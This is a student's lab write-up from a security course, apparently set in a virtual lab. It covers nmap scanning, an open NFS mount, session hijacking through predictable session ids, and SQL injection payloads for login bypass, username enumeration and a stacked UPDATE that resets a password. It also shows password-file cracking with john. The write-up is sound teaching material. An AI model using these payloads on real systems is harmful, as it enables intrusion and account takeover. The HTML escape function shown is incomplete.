

# Part A: Scanning

## Exercise 1

Below is the output from running the `nmap alice -O --version-all -sV` command:

~~~
Starting Nmap 5.00 ( http://nmap.org ) at 2014-03-22 16:53 CET
Interesting ports on alice (192.168.1.2):
Not shown: 991 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     WU-FTPD wu-2.6.2
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu5 (protocol 2.0)
23/tcp   open  telnet  Linux telnetd
25/tcp   open  smtp    Postfix smtpd
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
111/tcp  open  rpcbind
443/tcp  open  http    Apache httpd 2.2.14 ((Ubuntu))
2049/tcp open  rpcbind
6000/tcp open  X11     (access denied)
MAC Address: 08:00:27:ED:5B:F5 (Cadmus Computer Systems)
Device type: general purpose
Running: Linux 2.6.X
OS details: Linux 2.6.17 - 2.6.28
Network Distance: 1 hop
Service Info: Host:  alice; OSs: Unix, Linux

OS and Service detection performed. Please report any incorrect results at
http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.15 seconds
~~~

From this, we can see that __alice__ has 9 open ports running different services. From the man page of `nmap` we can see that state open means that "an application is actively accepting TCP connections, UDP datagrams or SCTP associations on this port". Moreover, we can see what services are running on these ports and the version numbers.

Additionally, we can see the MAC address of __alice__, the operating system it is running and its version, and its network distance, 1 hop, which means there is only one router between __alice__ and __mallet__.

\newpage

## Exercise 2

Below is a summary of what services Alice has running on what ports:

### FTP on port 21

FTP is a protocol used to transfer files from one host to another host. Mallet could initiate an ftp session with __alice__ with the following command `ftp alice`. __alice__ replies with a prompt for username and password. If Mallet knew the credentials it could transfer files to or from __alice__. A big drawback of the FTP protocol is that it does not encrypt the messages and uses clear-text login. Thus, all Mallet would need to do is read messages coming to __alice__ and get the username and password from them. There are more secure  alternatives to FTP such as SFTP and FTPS which encrypt messages.

### SSH on port 22

SSH is a protocol used for remote command-line login and command execution. Mallet could connect to __alice__ with the following command `ssh username@alice`, where _username_ is the username of a user on machine __alice__, for example the user _alice_. If Mallet knew the password for _alice_ it could execute any command _alice_ could execute. SSH messages are encrypted, thus even if Mallet read the messages incoming to __alice__ it would not get much wiser.

### Telnet on port 23

Telnet is a protocol, similar to SSH, which provides access to the command-line interface of a remote host. The attacker could connect to __alice__ with the following command `telnet alice`. __alice__ would reply with a prompt for username and password. If Mallet knew the credentials it could execute commands on __alice__. A drawback of Telnet is that by default it does not encrypt any of the messages. Thus, all Mallet would need to do is read messages coming to __alice__ and get the username and password from them. Furthermore, most implementations of Telnet have no authentication to ensure that the messages are not intercepted in the middle.

### SMTP on port 25

SMTP is a protocol for e-mail transmission. The fact that __alice__ serves this protocol on port 25 indicates that it is not using SMTPS which is secured by SSL. This means that Mallet could telnet into the SMTP service with `telnet alice 25` and then send or receive Alice's e-mails.

### HTTP on ports 80 and 443

HTTP is the standard protocol used for World Wide Web. Port 80 is usually associated with HTTP whereas port 443 is used for HTTPS. Mallet could retrieve websites served by the server (__alice__ is using Apache) running on these ports using the following commands `curl http://alice:80` or `curl http://alice:443` or just by visiting those urls with a browser.

\newpage

### rpcbind on ports 111 and 2049

The rpcbind utility is defined in its man page as "a server that converts RPC program numbers into universal addresses." We can see that __alice__ has allowed remote procedure calls on ports 111 and 2049. Port 111 is where rcpbind is listening to calls. To find out what services she is exposing on port 2049, Mallet could run the following command: `rpcinfo -p alice` and get the following output:

~~~
    program vers proto   port
    100000    2   tcp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  38484  status
    100024    1   tcp  33450  status
    100021    1   udp  58972  nlockmgr
    100021    3   udp  58972  nlockmgr
    100021    4   udp  58972  nlockmgr
    100021    1   tcp  37254  nlockmgr
    100021    3   tcp  37254  nlockmgr
    100021    4   tcp  37254  nlockmgr
    100003    2   udp   2049  nfs
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100003    2   tcp   2049  nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100005    1   udp  37165  mountd
    100005    1   tcp  33069  mountd
    100005    2   udp  37165  mountd
    100005    2   tcp  33069  mountd
    100005    3   udp  37165  mountd
    100005    3   tcp  33069  mountd
    100011    1   udp    667  rquotad
    100011    2   udp    667  rquotad
    100011    1   tcp    668  rquotad
    100011    2   tcp    668  rquotad
~~~

From this list, Mallet could see that she is running an nfs server on port 2049. This means that Mallet could potentially mount the drive that __alice__ is sharing. First he would execute the following command `showmount -e alice` to get the NFS server's export list:

~~~~
Export list for alice:
/home/alice *
~~~~

Then Mallet could mount the directory `/home/alice` on a directory on his machine with the following command: `mount alice:/home/alice /mnt/alice`. This means that Mallet would be able to access all the files in `/home/alice` without ever authenticating.

### X11 on port 6000

X11 is a window system protocol. It can be used for displaying GUI environments. Mallet could connect to this server with the following command: `ssh -X alice`. A potential risk is that Mallet could display windows from __alice__ on his machine but then again that would mean that Mallet already has ssh access.

\newpage

## Exercise 3

### TCP SYN scan

This is the default scan option. `nmap` sends a SYN packet (packet that synchronizes sequence numbers between the hosts) and waits for a response. If the response has the SYN/ACK flag set then it marks the port as open. If it has the RST flag set then it marks it as closed. If it gets no response, it will retry several times and mark it as filtered. The advantage of this option is that it is stealthy since it never completes TCP connections. Additionally, it can clearly differentiate between open, closed and filtered states.

### TCP ACK scan

This scan option never determines open ports. It is only used to find out which ports are being filtered by a firewall. `nmap` sends a packet with the ACK flag set and waits for a response. If the response has the RST flag set then it marks the port as unfiltered. Ports that do not respond are labeled as filtered. The advantage of this option is that it is stealthy and it is faster than other options.

### XMAS scan

According to the man page of `nmap`, this scan option "exploits a subtle loophole in the TCP RFC to differentiate between open and closed ports". `nmap` sends a packet with the FIN, PSH and URG flags all set and waits for a response. If the response has the RST flag set then it marks the port as closed. If it gets no response it marks the port as open|filtered. The port is marked as filtered if an ICMP unreachable error is returned. The advantage of this option is that these packets can sneak through certain non-stateful firewalls and packet filtering routers and it is even stealthier than the other two options.

## Exercise 4

__OpenVAS__ found 5 high-severity, 15 medium-severity and 41 low-severity security risks. Below is a list of four most dangerous risks:

### 1. Multiple PHP Arbitrary Code Execution Vulnerabilities

PHP 5.3.2 is prone to 3 arbitrary code execution vulnerabilities because it fails to properly sanitize user-supplied input. Attackers could use this bug to run arbitrary code, bypass security restrictions and gain privileges.

### 2. wu-ftpd S/KEY authentication overflow

The FTP server is running Wu-FTPd which is vulnerable to a remote overflow if s/key support is enabled (reportedly, disabled by default). The skey_challenge function fails to perform bounds checking on the name variable resulting in a buffer overflow. Attackers could execute arbitrary code with a specially crafted request resulting in a loss of integrity and/or availability.

### 3. wu-ftpd MAIL_ADMIN overflow

The remote Wu-FTPd server seems to be vulnerable to a remote flaw. If Wu-FTPd is compiled with MAIL_ADMIN enabled then it fails to properly check bounds on a pathname. Attackers could execute arbitrary code as the user Wu-FTPd runs as resulting in a loss of integrity and/or availability.

### 4. Sambar sendmail /session/sendmail

Alice is running the Sambar webserver. This provides a web interface for sending e-mails. Since Sambar does not check HTTP referrers you do not need direct access to the server. They could, therefore, pass a POST request to /session/sendmail and by this send e-mails to anyone they want.

## Exercise 5

 - Owner - Alice, the owner of the website
 - Assets - the content of the website
 - Threat agents - Mallet, or any other attacker
 - Threats - SQL injection
 - Risk - loss of integrity
 - Vulnerabilities - session management
 - Countermeasures - checking user input

## Exercise 6

 - Confidentiality - If attackers are eavesdropping, they could read the contents of the message board and the logins of users since Alice's website is not using HTTPS and is passing the messages and logins in clear-text.
 - Integrity - Attackers could maliciously alter data such as users' passwords using SQL injection because Alice is not sanitising her inputs.
 - Availability - Alice has not considered availability. She could have added a CAPTCHA or block users for limited time in case they enter a wrong username or password.
 - Accountability - It is impossible to determine whether Alice has considered accountability without inspecting her server.
 - Authentication - Alice's website has implemented authentication with a log-in page but not well because it is vulnerable to session stealing.

\newpage

# Part B: Session stealing

## Exercise 1

The map of the website is in figure 1. I used red background color for nodes which are only accessible after logging in. Moreover, transitions with red lines are only possible after logging in. All the requests on Alice's website use the GET method and there are no cookies set at any point. I left out links from a page to itself unless it can have different parameters like the message board page. Two possible vulnerabilities:

 1. Since the password and username are in the GET parameters someone looking at the browser history could see a user's password and username.
 2. No shared secret is required for a logout. This means anyone can log random people out if they go to the logout page with their session id.

 
## Exercise 2

After logging in and out several times, I noticed that the session id is incremented every time a new user logs in. Thus if three sessions were started and Mallet logs in he would get session id 4. This is not very practical because Mallet now knows how many users were logged in when he logged in. Thus, he could just change the sid parameter in his requests and if the previous user has not logged out yet he could steal their session.

A safer solution would incorporate generating a large random number and checking that it's unique. Additionally, we could add salt to it and hash it. This way, an attacker would have no way of knowing what the other session ids are. Furthermore, the session id should not be embedded in the get parameters of urls but should rather be stored in a cookie dropped on the user after they log in.

\newpage

## Exercise 3

Below is the forged url that Mallet used to post on the message board acting as Alice:

~~~
http://alice/index.php?msg=Hello+bob%2C+I%27m+alice.&id=forum&sid=3
~~~

The precondition of this attack is that Alice is already logged in before Mallet steals her session. The limitation of this attack is that as soon as Alice logs out, her session id will expire and Mallet will not be able to use it again. 

# Part C: SQL Injection

## Exercise 1

Below is the url I used in the SQL injection:

~~~
http://alice/?user=dont+know%27+OR+%271%27%3D%271%27+--+&pwd=bla&id=forum
~~~

This resulted in me logging in as Mallet. This could be explained by the fact that the PHP code chooses one of the usernames returned by the SQL query.

## Exercise 2

Below is an SQL query that we could inject as the username to retrieve all possible usernames one by one by changing X until we are no longer logged in:

~~~
dont know' OR '1'='1' ORDER BY username LIMIT 1 OFFSET X -- 
~~~

What happens in the system is that the SQL query returns all the possible usernames ordered alphabetically and then selects only the `X`th row since we use `LIMIT 1`. This way we could iterate over all the rows.

## Exercise 3

We use the query below to change Alice's password to aaa:

~~~
dont know'; UPDATE users SET password = 'aaa' WHERE username = 'alice'; -- 
~~~

This works because the SQL server will execute whatever query is passed in and we can embed multiple statements into one query. Thus it will execute the second statement which updates the users table with a new password for user `alice`.

\newpage

# Part D: Fortification

## Exercise 1

Below is the PHP code for sanitising HTML:

~~~{.php}
<?php
function escape_html($input) {
    return str_replace(array("<", ">"), array("&lt;", "&gt;"), $input);
}
?>
~~~

## Exercise 2

The browser now authenticates to the server using the Basic access authentication. This works by the browser taking the username and password, putting a colon between them and then encoding it with Base64. However, as this encoding is reversible it should only be transmitted over HTTPS. Otherwise, someone eavesdropping could read users' passwords.

## Exercise 3

To download this file we execute the following command on _mallet_:

~~~{.bash}
$ wget http://alice/passwords
~~~

I was able to download the file because Alice is serving everything in the /var/www directory. A possible countermeasure for this would be to move the file into the parent directory or a different directory that is not being served.

## Exercise 4

The new password for _mallet_ is mallet12.

~~~{.bash}
$ john passwords
~~~
~~~
Loaded 3 password hashes with 3 different salts (Traditional DES [24/32 4K])
mallet12         (mallet)
bob123           (bob)
alice123         (alice)
guesses: 3  time: 0:00:00:00 100.00% (1) (ETA: Mon Mar 24 18:55:53 2014)  
c/s: 86100  trying: Alice37 - bob123
~~~

